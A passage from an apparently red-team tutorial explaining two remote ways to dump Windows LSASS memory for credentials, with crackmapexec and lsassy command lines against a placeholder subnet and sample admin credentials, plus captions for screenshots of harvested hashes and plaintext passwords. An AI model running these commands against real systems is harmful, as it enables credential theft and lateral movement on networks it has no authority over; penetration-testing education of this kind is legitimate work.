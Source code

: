 
## Method 4- Getting LSASS Dump with Crackmapexec

Crackmapexec is an excellent tool for performing a LSASS dump remotely. With credentials with local admin access, you can to indicate an entire subnet or list of IP addresses and get.

```bash
crackmapexec smb 192.168.x.x -u 0xhav0c -p Password123! --lsa
```
![Getting LSASS dump with Crackmapexec.](/assets/img/pitcures/red-team/dumplsass11.png)
_Getting LSASS dump with Crackmapexec._

![stored hashes and plaintext password outputs.](/assets/img/pitcures/red-team/dumplsass12.png)
_Stored hashes and plaintext password outputs._

> If Crackmapexec catches hashes and plaintext passwords, it will keep it in its home directory under `~/.cme/logs/`.
{: .prompt-tip }


CrackMapExec uses Impacket's [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to dump LSASS.

## Method 5- Getting LSASS Dump with lsassy

[Lsassy](https://github.com/Hackndo/lsassy) is a tool that uses a combination of the above methods to offload LSASS remotely. The default command attempts to use the `comsvcs.dll` method to offload LSASS with WMI or a remote scheduled task:

```bash
└─$ lsassy -d secybr.com -u 0xhav0c -p Password123! 192.168.x.x
```

![Getting LSASS dump with lsassy](/assets/img/pitcures/red-team/dumplsass13.png)
_Getting LSASS dump with lsassy_

